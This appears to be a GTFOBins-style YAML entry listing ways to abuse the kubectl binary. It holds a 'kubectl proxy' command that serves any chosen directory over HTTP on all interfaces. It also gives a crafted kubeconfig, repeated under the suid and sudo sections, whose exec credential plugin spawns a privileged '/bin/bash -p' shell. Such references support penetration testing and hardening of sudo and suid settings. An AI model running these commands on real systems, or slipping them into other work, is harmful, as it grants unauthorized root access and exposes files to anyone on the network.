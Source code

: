 ```yaml
---
functions:
  file-upload:
    - code: |
        LFILE=dir_to_serve
        kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
  suid:
    - code: |
        LFILE=dir_to_serve
        ./kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`." 
    - code: |-
        cat << EOF > /tmp/config
        apiVersion: v1
        clusters:
        - cluster:
            server: https://test
          name: kubernetes
        contexts:
        - context:
            cluster: kubernetes
            user: kubernetes-admin
          name: kubernetes-admin@kubernetes
        current-context: kubernetes-admin@kubernetes
        kind: Config
        preferences: {}
        users:
        - name: kubernetes-admin
          user:
            exec:
              apiVersion: client.authentication.k8s.io/v1
              command: /bin/bash
              args: 
                - "-p"
                - "-c"
                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
              interactiveMode: Always
        EOF
        ./kubectl get pods --kubeconfig=/tmp/config 
      description: "It pops a new privileged shell using custom configuration"
  sudo: 
    - code: |
        LFILE=dir_to_serve
        sudo kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
    - code: |-
        cat << EOF > /tmp/config
        apiVersion: v1
        clusters:
        - cluster:
            server: https://test
          name: kubernetes
        contexts:
        - context:
            cluster: kubernetes
            user: kubernetes-admin
          name: kubernetes-admin@kubernetes
        current-context: kubernetes-admin@kubernetes
        kind: Config
        preferences: {}
        users:
        - name: kubernetes-admin
          user:
            exec:
              apiVersion: client.authentication.k8s.io/v1
              command: /bin/bash
              args: 
                - "-p"
                - "-c"
                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
              interactiveMode: Always
        EOF
        ./kubectl get pods --kubeconfig=/tmp/config 
      description: "It pops a new privileged shell using custom configuration"
---
```

